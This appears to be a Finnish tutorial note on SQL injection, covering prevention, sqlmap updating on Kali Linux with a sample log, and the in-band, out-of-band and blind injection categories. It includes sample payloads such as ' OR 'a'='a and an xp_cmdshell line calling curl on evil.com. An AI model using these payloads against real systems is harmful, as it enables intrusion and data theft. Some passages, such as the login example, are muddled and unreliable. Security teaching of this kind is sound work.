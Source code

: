 # SQL injektio

SQL-injektio (SQL injection) on tietoturvahyökkäys, jossa hyökkääjä voi manipuloida verkkosovelluksen tai tietokannan SQL-kyselyitä. Tämä tapahtuu syöttämällä haitallista SQL-koodia sovellukseen, joka ei ole suojattu asianmukaisesti. SQL-injektio voi mahdollistaa hyökkääjän suorittaa tietokannan komentoja, kuten lukemaan, muokkaamaan tai poistamaan tietoja, jopa hankkimaan järjestelmänvalvojan oikeudet.

SQL-injektiohyökkäyksen perusidea on hyödyntää puutteellisesti suodatettuja syötteitä (kuten käyttäjän syöttämiä lomaketietoja tai URL-parametreja) ja liittää niihin haitallista SQL-koodia. Jos sovellus ei tarkista tai puhdista syötteitä kunnolla, hyökkääjä voi lisätä oman SQL-lausekkeen alkuperäiseen kyselyyn, joka suoritetaan tietokannassa.


Oletetaan, että sinulla on verkkosivusto/palvelin/tietokanta, jossa käyttäjä voi kirjautua sisään syöttämällä käyttäjätunnuksen ja salasanan. Jos kirjautumislomakkeen tiedot liitetään suoraan SQL-kyselyyn ilman oikeaa suodatusta, hyökkääjä voi syöttää seuraavanlaisen syötteen: `root` ja ei ole salasanaa, tai oletuksena käyttäjätunnus ja salasana OVAT `root` tai joko `admin`.


## ehkäiseminen ja turvallisuuden kannalta

SQL-injektion välttäminen on olennainen osa verkkosovellusten ja tietokantojen suojaamista. 


- Tietokannan suojaus: Tietokannassa, kuten MariaDB/MySQL:ssä, tulisi käyttää vahvoja ja pitkiä salasanoja, jotka estävät hakkereita pääsemästä käsiksi järjestelmään. Vahva salasana sisältää suuria ja pieniä kirjaimia, numeroita ja erikoismerkkejä.
  
- Ylläpitäjien hallinta: Mikäli tietokannassa on useita ylläpitäjiä, on suositeltavaa luoda vähintään kaksi tai useampi ylläpitäjän tili, jotka jakavat vastuuta ja rajoittavat yksittäisen käyttäjän pääsyä. Näin varmistetaan, että kaikki oikeudet eivät ole yhden henkilön käsissä.

- Syötteiden validointi: Käyttäjän syötteitä ei koskaan tulisi liittää suoraan SQL-kyselyihin, sillä se voi mahdollistaa SQL-injektion. Sen sijaan tulisi käyttää valmisteltuja kyselyitä (prepared statements), joissa käyttäjän syöte käsitellään turvallisesti erillään SQL-komennosta.

- Päivitykset ja haavoittuvuuksien hallinta: Sovellukset ja käytettävät ohjelmistot, kuten tietokannan hallintajärjestelmät (esim. MySQL, PostgreSQL), tulisi päivittää säännöllisesti, jotta tunnetut haavoittuvuudet saadaan korjattua. Tällöin voidaan estää hyökkäyksiä, jotka voisivat käyttää hyväkseen ohjelmistojen vanhentuneita versioita.

<hr>

## kali linux ja sqlmap

Sekä pieni huomiona, tätä sqlmap - komentoa jos toistaa useammin niin jossakin tilanteessa tulee pieni katkosta eli vähä kuin aikaleima. Jossain tilantteessa tällainen saattaa tulla, jossa tämä tarkoittaa sqlmap-työkalu versio on vanhentunut. Voi vaikuttaa, että sqlmap ei toimi oikein, ja ei ehkä pysty käyttämään uusia ominaisuuksia tai korjauksia, joita on lisätty työkaluun alunperin verrattuna uudenmpiin versioihin. 

```
[*] starting @ 18:39:30 /2024-12-08/

[18:39:30] [INFO] resuming back-end DBMS 'microsoft sql server' 
[18:39:55] [CRITICAL] host 'testasp.vulnweb.com' does not exist
[18:39:55] [WARNING] your sqlmap version is outdated

[*] ending @ 18:39:55 /2024-12-08/
```

Vanha sqlmap-versio ei välttämättä tue uusimpia tekniikoita, joita tarvitaan nykyään verkkosivustojen SQL-injektiohaavoittuvuuksien löytämiseen, etenkin jos verkkosivustolla on lisäsuojauksia. Tämä voi estää sinua suorittamasta SQL-injektiohyökkäystä onnistuneesti. Lisäksi, jos tietokannan rakenteessa on muutoksia tai uusia tietoturvatoimenpiteitä, vanha versio saattaa olla kykenemätön käsittelemään niitä.

Päivittäminen menee komennolla `sqlmap --update` ja jos ei tiedä mitä komentoa ja miten päivittää tarkista apua ensin `sqlmap -h` ja tämä on kali linux alla tmä työkalu, niin on hyvä tarvittaessa päivittää oman kali linux ohjelman `sudo apt update` tämä päivittää versiot, mutta jos päivittää `sudo apt upgrade` niin se syö muisti ja vie resurssien muistia. 

<hr>

# SQL Injection kategoriat:

Kolmen typpistä injektio ovat; 

- In-band SQL injection; Hyökkääjä suorittaa SQL-kyselyt samalla yhteyden kautta ja saa vastauksia heti. Toisin sanoen, kaikki tiedot saadaan samassa "kanavassa" hyökkäyksen aikana. Tässä kategorian sisällä voidaan puhua esimerkiksi error-based SQL injection (virheilmoitusten kautta) tai union-based SQL injection (tietojen yhdistämisen kautta). Hyökkääjä saa välittömästi palautetta kyselyjen tuloksista ja voi käyttää tätä tietoa hyväkseen. Esim. `' OR 'a'='a`
  (lyhyesti sanottuna;  Hyökkääjä saa suoraa palautetta samassa yhteydessä kyselyistä.)

- Out-of-band SQL injection; hyökkääjä ei saa palautetta samassa yhteydessä kuin kyselyä suoritetaan. Sen sijaan tietoja voidaan siirtää jollain muulla tavalla, esimerkiksi erillisten kanavien (kuten verkkopyynnöt) kautta. Tämä voi tapahtua esimerkiksi, jos SQL-kysely suorittaa toimenpiteitä, jotka laukaisevat ulkoisen tiedonsiirron (esim. tietojen lähettäminen hyökkääjän palvelimelle). Out-of-band-injektiot eivät ole yhtä yleisiä, koska ne edellyttävät, että tietokannan on tuettava ulkoisten yhteyksien tekemistä, mutta ne voivat olla tehokkaita. Esim. `'; EXEC xp_cmdshell('curl http://evil.com/attack') --
   (lyhyesti sanottuna;  Hyökkääjä saa tietoa muilla kanavilla, kuten verkkopyynnöillä.)

- blind / inferential SQL injection; Blind SQL-injektiossa ei saada suoraa palautetta SQL-kyselyistä, mutta hyökkääjä voi päätellä tietoja epäsuorasti, esimerkiksi kokeilemalla erilaisia ehtoja ja katsomalla, miten sivusto reagoi. Tässä ei ole virheilmoituksia eikä suoraa tietoa, mutta silti hyökkääjä voi arvaamalla selvittää tietokannan rakennetta ja tietoja. Blind SQL Injection voidaan jakaa edelleen kahteen tyyppiin:
        (lyhyesti sanottuna; Hyökkääjä ei saa suoraa palautetta, vaan päättelee tietoja epäsuorasti käyttäen sivuston käyttäytymistä (boolean- tai time-based).)
  
 -  boolean-based Blind SQL injection: Hyökkääjä yrittää muuttaa SQL-kyselyä siten, että kyselyn tulos on joko "totta" tai "epätotta", ja seuraamalla käyttäjän reaktiota (esim. sivun lataus tai virhe) voi päätellä, onko tietty ehto täsmällinen.
 -  Time-based Blind SQL Injection: Tässä hyökkääjä pakottaa tietokannan odottamaan tietyn ajan ennen vastauksen lähettämistä, ja aikaa mittaamalla voidaan päätellä, onko ehto ollut totta vai epätotta.

Esim. `' AND 1=1 --` - sivu latautuu normaalisti tarkoittaa ehto 1=1. Mutta jos esim. `' AND 1=2 --` ettei sivu lataudu. Näin hän voi päätellä, että ehto 1=2 on epätosi.



